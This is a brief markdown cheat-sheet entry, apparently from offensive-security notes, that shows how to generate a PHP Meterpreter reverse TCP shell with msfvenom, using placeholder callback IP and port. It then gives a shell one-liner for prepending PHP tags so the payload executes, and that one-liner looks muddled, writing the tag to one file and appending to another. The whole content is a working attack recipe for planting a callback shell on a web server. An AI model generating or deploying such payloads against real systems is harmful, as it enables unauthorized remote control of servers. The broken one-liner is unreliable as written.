 # PHP

- PHP meterpreter reverse callback shell

`$ msfvenom -p php/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f raw -o met.php`

- After generating the PHP meterpreter reverse callback shell include the tags to ensure execution.

```
$ cat met.php | xclip -selection clipboard && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> met.php
```